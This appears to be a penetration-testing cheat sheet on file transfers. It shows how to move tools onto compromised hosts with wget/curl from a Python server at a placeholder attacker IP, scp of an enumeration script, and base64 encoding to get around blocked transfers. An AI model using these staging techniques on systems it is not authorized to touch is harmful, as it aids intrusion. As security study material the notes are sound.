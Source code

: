### **Overview**
- File transfers during penetration tests are crucial for uploading tools like enumeration scripts or exploits and downloading data from compromised hosts. 



### **1. Using `wget` or `curl`**
- **Setup**:
    1. Start a Python HTTP server on the attacker's machine:
        ```bash
        python3 -m http.server 8000
        ```
    2. On the target, use either `wget` or `curl` to download the file.
- **Commands**:
    - **Using `wget`**:
        ```bash
        wget http://<attacker_ip>:8000/<file>
        ```
    - **Using `curl`**:
        ```bash
        curl http://<attacker_ip>:8000/<file> -o <output_file>
        ```



### **2. Using SCP**
- **Prerequisites**: SSH credentials for the target system.
- **Command**:
    ```bash
    scp <local_file> <user>@<remote_host>:<remote_path>
    ```
    - Example:
    ```bash
    scp linenum.sh user@remotehost:/tmp/linenum.sh
    ```



### **3. Using Base64 Encoding**
- **Use Case**: When direct file transfer methods are blocked.
- **Steps**:
    1. Encode the file into Base64 on the attacker’s machine:
        ```bash
        base64 <file> -w 0
        ```
    2. Copy the encoded string to the target.
    3. Decode the Base64 string and save it as a file:
        ```bash
        echo <base64_string> | base64 -d > <output_file>
        ```



### **4. Validating File Transfers**
1. **Check File Format**:
    - Use the `file` command on the target:
        ```bash
        file <file>
        ```
2. **Verify Integrity with MD5**:
    - On the attacker's machine:
        ```bash
        md5sum <file>
        ```
    - On the target:
        ```bash
        md5sum <file>
        ```
    - Compare the MD5 hashes to ensure accurate file transfer.



### **Summary of Commands**

|**Tool**|**Command**|**Use Case**|
|---|---|---|
|**Python HTTP**|`python3 -m http.server 8000`|Serve files for download using HTTP.|
|**wget**|`wget http://<attacker_ip>:8000/<file>`|Download file from HTTP server.|
|**curl**|`curl http://<attacker_ip>:8000/<file> -o <output_file>`|Alternative to `wget` for downloads.|
|**scp**|`scp <local_file> <user>@<remote_host>:<remote_path>`|Transfer file via SSH.|
|**Base64**|`base64 <file> -w 0` (encode) and `echo|base64 -d > ` (decode)|
|**Validate**|`file <file>` and `md5sum <file>`|Validate file type and integrity.|
